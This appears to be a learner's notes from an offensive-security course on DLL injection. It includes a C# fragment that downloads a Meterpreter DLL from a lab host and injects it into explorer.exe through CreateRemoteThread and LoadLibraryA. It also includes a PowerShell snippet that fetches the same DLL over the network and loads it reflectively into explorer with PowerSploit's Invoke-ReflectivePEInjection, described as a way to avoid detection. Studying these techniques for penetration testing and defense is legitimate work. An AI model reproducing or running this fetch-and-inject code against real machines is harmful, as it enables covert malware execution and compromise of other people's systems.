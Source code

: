 ```C#
            wc.DownloadFile("http://10.10.6.12/met.dll", dllName);
            Process[] expProc = Process.GetProcessesByName("explorer");
            Console.WriteLine("Length of the array is : ", (uint) expProc.Length);
            int pid = expProc[0].Id;
            Console.WriteLine(pid);
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr,
           Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
           addr, 0, IntPtr.Zero);
        }
    }
}
```

### 5.2.2.1 Exercise
1. Recreate the DLL injection technique and inject a Meterpreter DLL into explorer.exe from a 
Jscript file using DotNetToJscript.

# Reflective DLL Injection Theory

Since we do not need to rely on GetProcAddress and want to avoid detection, we are only 
interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields 
of the DLL’s Portable Executable260 (PE) file format and maps the contents into memory.

In order to implement reflective DLL injection, we could write custom code to essentially recreate 
and improve upon the functionality of LoadLibrary. Since the inner workings of the code and the 
details of the PE file format are beyond the scope of this module, we will instead reuse existing 
code to execute these techniques.

# reflective dll injection in powershell

We’ll reuse the PowerShell reflective DLL injection code (Invoke-ReflectivePEInjection261) 
developed by the security researchers Joe Bialek and Matt Graeber

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

Not running -

```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://10.10.6.12/met.dll')
$procid = (Get-Process -Name explorer).Id

Import-Module "C:\Users\misthios\codeplay\pen300\book\chapter5\invoke_reflective_injection.ps1" 

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
